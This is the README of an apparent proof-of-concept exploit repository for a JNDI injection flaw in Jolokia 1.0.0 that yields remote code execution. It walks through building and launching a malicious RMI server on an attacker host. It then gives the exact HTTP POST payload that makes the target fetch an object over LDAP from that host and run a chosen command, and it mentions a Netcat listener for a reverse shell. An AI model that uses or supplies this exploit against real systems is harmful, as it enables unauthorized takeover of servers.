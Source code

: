 # Jolokia 1.0.0 JNDI Injection leading to RCE

Working POC code for Jolokia RCE

## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_3` specified in `ExportObject.java` file


Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html

